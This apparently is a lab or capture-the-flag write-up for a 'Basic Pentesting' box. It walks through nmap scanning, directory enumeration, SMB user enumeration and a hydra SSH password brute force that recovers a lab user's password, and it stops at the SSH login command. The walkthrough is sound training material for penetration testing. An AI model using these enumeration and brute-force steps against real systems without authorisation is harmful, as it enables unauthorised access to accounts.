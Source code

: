 # Basic Pentesting Write-up

![image](https://github.com/zer00d4y/writeups/assets/128820441/88711091-2ee6-4f15-b30b-c361de58db75)

target: 10.10.32.118

## Port scanning

`nmap 10.10.32.118`

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 01:17 EST
    Nmap scan report for 10.10.32.118
    Host is up (0.18s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT    STATE SERVICE
    22/tcp  open  ssh
    80/tcp  open  http
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds
    
    Nmap done: 1 IP address (1 host up) scanned in 20.57 seconds

## Directory enumeration

`python3 dirsearch.py -e php,html,js -u http://10.10.32.118 --exclude-status 404,403,401,307`
    
      _|. _ _  _  _  _ _|_    v0.4.3
     (_||| _) (/_(_|| (_| )
    
    Extensions: php, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 10624
    
    Output: /home/kali/tools/dirsearch/reports/http_10.10.32.118/_24-01-08_01-17-34.txt
    
    Target: http://10.10.32.118/
    
    [01:17:34] Starting: 
    [01:19:16] 200 -    1KB - /development/                                     
                                                                                 
    Task Completed

![image](https://github.com/zer00d4y/writeups/assets/128820441/e512affe-dfb1-4242-abd3-abcb3ae3e5a4)

dev.txt

![image](https://github.com/zer00d4y/writeups/assets/128820441/12842027-dc8b-4b2c-8acc-c663480e399b)

j.txt

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7889d42-3e1a-47a9-83d3-45bb107d6a4e)

## enum4linux

`enum4linux 10.10.32.118`

    [+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                                
    S-1-22-1-1000 Unix User\kay (Local User)                                                                                                                                                                                                    
    S-1-22-1-1001 Unix User\jan (Local User)

found username `jan` and `kay`

## Brute-forcing

`hydra -l jan -P rockyou.txt ssh://10.10.32.118`

    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-08 01:46:48
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
    [DATA] attacking ssh://10.10.32.118:22/
    [STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
    [STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344104 to do in 2422:60h, 14 active
    [STATUS] 102.14 tries/min, 715 tries in 00:07h, 14343685 to do in 2340:28h, 14 active
    [22][ssh] host: 10.10.32.118   login: jan   password: armando
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-08 01:55:07

login: `jan`  password: `armando`

## SSH 

`ssh jan@10.10.32.118`






                                                              
